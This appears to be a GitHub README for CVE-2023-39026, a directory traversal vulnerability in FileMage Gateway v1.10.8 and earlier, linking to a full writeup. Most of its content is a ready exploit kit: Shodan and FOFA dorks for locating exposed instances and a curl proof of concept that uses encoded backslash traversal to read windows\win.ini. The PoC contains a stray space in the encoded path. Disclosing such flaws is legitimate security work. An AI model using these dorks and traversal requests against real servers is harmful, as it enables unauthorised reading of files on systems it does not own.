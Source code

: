 # CVE-2023-39026

![](https://img.shields.io/static/v1?label=Product&message=FileMage%20Gateway&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=v.1.10.8%20and%20before&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%20%20Directory%20Traversal&color=red)

For the full writeup, click [here](https://raindayzz.com/technicalblog/2023/08/20/FileMage-Vulnerability.html).

- Shodan dork:
```
http.favicon.hash:"-209293751"
```
- FOFA dork:
```
icon_hash="-209293751"
```

### Curl PoC
```
curl -k -X 'GET' "http://target_ip_address:port/mgmnt/..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5 cwindows%5cwin.ini"
```

